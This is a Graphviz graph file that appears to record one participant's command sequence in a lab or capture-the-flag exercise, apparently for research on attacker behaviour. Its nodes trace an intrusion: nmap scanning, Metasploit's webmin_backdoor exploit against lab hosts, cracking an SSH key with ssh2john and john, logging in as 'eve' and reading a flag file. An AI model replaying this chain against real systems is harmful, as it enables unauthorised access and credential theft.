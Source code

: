 // creating graph for user: 43
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="netstat -lpn U"]
	2 [label="netstat -lpn  U"]
	3 [label="netstat -na U"]
	4 [label="netstat -sV U"]
	5 [label="man netstat U"]
	6 [label="touch webmin.sh U"]
	7 [label="nano webmin.sh U"]
	8 [label="chmod +x webmin.sh A15 "]
	9 [label="./webmin.sh U"]
	10 [label="perl --version U"]
	11 [label="ruby --version U"]
	12 [label="ls A10 "]
	13 [label="chmod +x 47230.rb A15 "]
	14 [label="ls A10 "]
	15 [label="./47230.rb U"]
	16 [label="./webmin.sh https://localhost:10000 U"]
	17 [label="./webmin.sh 100.100.100.5:10000 U"]
	18 [label="./webmin.sh 100.100.100.5 U"]
	19 [label="./webmin.sh 172.18.1.1:10000 U"]
	20 [label="./webmin.sh 172.18.1.1 U"]
	21 [label="metasploit U"]
	22 [label="msfconsole M2 "]
	23 [label="use 47230.rb A4 "]
	24 [label="show targets A5 "]
	25 [label="set TARGET 0 A6 "]
	26 [label="exploit M8 "]
	27 [label="show options M5 "]
	28 [label="set TARGETURI /root/ A6 "]
	29 [label="show options V5 "]
	30 [label="set RHOSTS 172.18.1.1 M6 "]
	31 [label="exploit V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	33 [label="show options V5 "]
	34 [label="exploit V8 "]
	35 [label="set TARGET 0 A6 "]
	36 [label="exploit V8 "]
	37 [label="set RHOSTS 172.18.1.5 V6 "]
	38 [label="exploit V8 "]
	39 [label="set LHOST 0.0.0.0 V6 "]
	40 [label="exploit V8 "]
	41 [label="show options V5 "]
	42 [label="set TARGETURI /root/ A6 "]
	43 [label="exploit V8 "]
	44 [label="set TARGETURI / A6 "]
	45 [label="show options V5 "]
	46 [label="exploit V8 "]
	47 [label="set LHOST 127.0.0.1 V6 "]
	48 [label="exploit V8 "]
	49 [label="ifconfig U"]
	50 [label="ifconfig U"]
	51 [label="set LHOST 192.168.131.153 V6 "]
	52 [label="exploit V8 "]
	53 [label="show options V5 "]
	54 [label="set LHOST 10.1.135.83 V6 "]
	55 [label="exploit V8 "]
	56 [label="check A7 "]
	57 [label="show options V5 "]
	58 [label="exploit V8 "]
	59 [label="netstat -lpn U"]
	60 [label="clear U"]
	61 [label="netstat -a U"]
	62 [label="netstat -na U"]
	63 [label="netstat -a U"]
	64 [label="netstat -a U"]
	65 [label="msfconsole V2 "]
	66 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	67 [label="show options V5 "]
	68 [label="ifconfig U"]
	69 [label="set LHOST 10.1.135.83 V6 "]
	70 [label="netstat -a U"]
	71 [label="set RHOST 172.168.1.5 A6 "]
	72 [label="exploit V8 "]
	73 [label="show options V5 "]
	74 [label="set TARGET 0 A6 "]
	75 [label="exploit V8 "]
	76 [label="set RHOST 192.168.1.5 A6 "]
	77 [label="exploit V8 "]
	78 [label="set RHOST 172.18.1.5 A6 "]
	79 [label="exploit V8 "]
	80 [label="show options V5 "]
	81 [label="set TARGET 0 A6 "]
	82 [label="exploit V8 "]
	83 [label="show options V5 "]
	84 [label="set TARGET 0 A6 "]
	85 [label="exploit V8 "]
	86 [label="set TARGET 0 A6 "]
	87 [label="pwd U"]
	88 [label="exploit V8 "]
	89 [label="set TARGET 0 A6 "]
	90 [label="exploit V8 "]
	91 [label="set TARGET 0 A6 "]
	92 [label="touch key.txt U"]
	93 [label="cd U"]
	94 [label="ls A10 "]
	95 [label="./ssh2john.py ~/Desktop/key.txt > hash A14 A16 "]
	96 [label="ls A10 "]
	97 [label="man john A14 "]
	98 [label="john --wordlist=/usr/share/wordlists/rockyou.txt hash M14 "]
	99 [label="msfconsole V2 "]
	100 [label="use /exploit/unix/webapp/webmin_backdoor V8 "]
	101 [label="use exploit/unix/webapp/webmin_backdoor  V8 "]
	102 [label="show options V5 "]
	103 [label="set RHOST 172.18.1.5 A6 "]
	104 [label="set TARGET 0 A6 "]
	105 [label="ifconfig U"]
	106 [label="set LHOST 10.1.135.83 V6 "]
	107 [label="ssh -i key.txt eve@10.1.17.45 M16 "]
	108 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	109 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	110 [label="chmod 777 key.txt A15 "]
	111 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	112 [label="chmod 400 key.txt A15 "]
	113 [label="ssh -i key.txt eve@10.1.17.4 V16 "]
	114 [label="ls A10 "]
	115 [label="cd top-secret/ U"]
	116 [label="ls A10 "]
	117 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	rankdir=LR
}
